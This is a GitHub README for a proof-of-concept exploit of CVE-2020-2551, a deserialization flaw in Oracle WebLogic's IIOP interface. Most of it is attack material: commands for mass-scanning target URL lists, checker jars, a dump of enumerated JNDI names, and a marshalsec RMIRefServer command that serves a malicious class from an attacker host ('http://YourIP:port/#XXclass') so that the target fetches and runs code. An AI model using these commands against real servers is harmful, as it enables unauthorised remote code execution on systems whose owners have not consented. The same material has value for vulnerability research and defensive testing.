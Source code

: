 Twitter: [@Hktalent3135773](https://twitter.com/Hktalent3135773)
[![Tweet](https://img.shields.io/twitter/url/http/Hktalent3135773.svg?style=social)](https://twitter.com/intent/tweet?original_referer=https%3A%2F%2Fdeveloper.twitter.com%2Fen%2Fdocs%2Ftwitter-for-websites%2Ftweet-button%2Foverview&ref_src=twsrc%5Etfw&text=myhktools%20-%20Automated%20Pentest%20Recon%20Scanner%20%40Hktalent3135773&tw_p=tweetbutton&url=https%3A%2F%2Fgithub.com%2Fhktalent%2Fmyhktools)
[![Follow on Twitter](https://img.shields.io/twitter/follow/Hktalent3135773.svg?style=social&label=Follow)](https://twitter.com/intent/follow?screen_name=Hktalent3135773)

# 0、how get pro exploit tools?
see https://github.com/hktalent/CVE-2020-2551/issues/5

# 1、CVE-2020-2551
CVE-2020-2551 poc exploit python example
keys:
GIOP corba
<img width="588" alt="image" src="https://user-images.githubusercontent.com/18223385/75644021-da372000-5c7b-11ea-8176-b6f911dd4f13.png">


### How use
```
python3 CVE-2020-2551.py -u http://192.168.26.79:7001
cat urls.txt|sort -u|xargs -I % python3 CVE-2020-2551.py -u %
cat xxx.html|grep -Eo 'http[s]?:\/\/[^ \/]+'|sort -u|xargs -I % python3 CVE-2020-2551.py -u %
# 32 Thread check
cat allXXurl.txt|grep -Eo 'http[s]?:\/\/[^ \/]+'|sort -u|python3 CVE-2020-2551.py -e
# now result to data/*.txt
java -cp hktalent_51pwn_com_12.1.3.0_check.jar testiiop.ExpCVE20202551_names ip:port ip:port
java -cp hktalent_51pwn_com_12.2.1.3.0_check.jar testiiop.ExpCVE20202551_names ip:port ip:port
```

### t3, t3s, http, https, iiop, iiops
```
service:jmx:rmi://ip:port/jndi/iiop://ip:port/MBean-server-JNDI-name
service:jmx:iiop://ip:port/jndi/weblogic.management.mbeanservers.domainruntime
service:jmx:t3://ip:port/jndi/weblogic.management.mbeanservers.domainruntime
```

## poc
<img width="695" alt="image" src="https://user-images.githubusercontent.com/18223385/75640403-f0d77a00-5c6f-11ea-92f5-61a6840b8bf3.png">



# 2、your know your do
```
{
    "ejb": {
        "class": "com.sun.jndi.cosnaming.CNCtx",
        "interfaces": [
            "javax.naming.Context"
        ],
        "mgmt": {
            "MEJB": {
                "class": "com.sun.corba.se.impl.corba.CORBAObjectImpl",
                "interfaces": []
            },
            "class": "com.sun.jndi.cosnaming.CNCtx",
            "interfaces": [
                "javax.naming.Context"
            ]
        }
    },
    "javax": {
        "class": "com.sun.jndi.cosnaming.CNCtx",
        "error msg": "org.omg.CORBA.NO_PERMISSION:   vmcid: 0x0  minor code: 0  completed: No",
        "interfaces": [
            "javax.naming.Context"
        ]
    },
    "jdbc": {
        "class": "com.sun.jndi.cosnaming.CNCtx",
        "db_xf": {
            "class": "com.sun.corba.se.impl.corba.CORBAObjectImpl",
            "interfaces": []
        },
        "interfaces": [
            "javax.naming.Context"
        ]
    },
    "mejbmejb_jarMejb_EO": {
        "class": "com.sun.corba.se.impl.corba.CORBAObjectImpl",
        "interfaces": []
    },
    "weblogic": {
        "class": "com.sun.jndi.cosnaming.CNCtx",
        "error msg": "org.omg.CORBA.NO_PERMISSION:   vmcid: 0x0  minor code: 0  completed: No",
        "interfaces": [
            "javax.naming.Context"
        ]
    }
}
```

# 3、ejb
```
/bea_wls_internal/classes/mejb@/

weblogic.management.j2ee.mejb.Mejb_dj*#remove(Object obj)
```

# 4、jta
```
x.lookup("ejb/mgmt/MEJB").remove(jta);
```
# 5、logs
- fix rmi use Jdk7u21 payload，not work for remote jdk8
don‘t use
```
java -cp $mtx/../tools/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 Jdk7u21 'whoami'
```
use,XXclass.class from jdk6 build
```
java -cp $mtx/../tools/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer 'http://YourIP:port/#XXclass' 1099
```

# 6、thanks for
@[r4v3zn](https://github.com/r4v3zn)
@[0nise](https://github.com/0nise)
[![Top Langs](https://profile-counter.glitch.me/hktalent/count.svg)](https://51pwn.com)
